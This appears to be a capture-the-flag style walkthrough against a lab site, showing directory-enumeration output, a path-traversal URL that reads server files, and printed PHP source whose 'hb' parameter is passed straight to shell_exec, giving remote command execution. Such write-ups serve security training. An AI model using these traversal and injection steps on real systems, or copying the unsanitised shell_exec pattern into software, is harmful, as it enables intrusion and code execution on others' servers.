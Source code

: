 ```
200      117l      280w     4239c http://powerplant.site/login.php
302        0l        0w        0c http://powerplant.site/chat.php
302        0l        0w        0c http://powerplant.site/home.php
302        0l        0w        0c http://powerplant.site/template.php
301        9l       28w      315c http://powerplant.site/js
301        9l       28w      320c http://powerplant.site/include
301        9l       28w      317c http://powerplant.site/dist
302        0l        0w        0c http://powerplant.site/load.php
302        0l        0w        0c http://powerplant.site/dump.php
301        9l       28w      317c http://powerplant.site/less
200       54l      174w     2143c http://powerplant.site/outages
302        0l        0w        0c http://powerplant.site/change_password.php
302        0l        0w        0c http://powerplant.site/view_page.php
302        0l        0w        0c http://powerplant.site/website_management.php
302        0l        0w        0c http://powerplant.site/add_page.php
[####################] - 11m   441090/441090  0s      found:17      errors:2      
[####################] - 11m   441090/441090  614/s   http://powerplant.site
```

Open the page website_management.php.

```
http://powerplant.site/website_management.php
```

From this page you can create, update and delete files using the user www-data. Sadly you can't change any of the files on the initial directory.

If you change the file parameter, it is possible to read any file on the server.

```
http://powerplant.site/view_page.php?file=add_page.php
```

In the page below, it is possible to read the source code from the page heart_beat.php.

```
http://powerplant.site/view_page.php?file=../../../var/www/monitoring.site/heart_beat.php
```

There are an RCE on this page on the parameter GET hb.

```
<?php
header('Content-Type: text/event-stream');
header('Cache-Control: no-cache');
header('Access-Control-Allow-Origin: ' . $_SERVER['HTTP_ORIGIN']);

$hb = @$_GET['hb'];

function send_msg($message) {
    print($message . "\n\n");
    ob_flush();
    flush();
}

while (true) {
    if ($hb) {
    send_msg("event: heart_beat\ndata: " . trim(shell_exec($hb)));
    sleep(2);
    }
    send_msg("event: server_load\ndata: " . json_encode(trim(shell_exec('top -b -n 1 | head -5'))));
    sleep(2);
    send_msg("event: traffic_loss\ndata: " . mt_rand(1, 100));
    sleep(2);
}
ob_end_flush();
```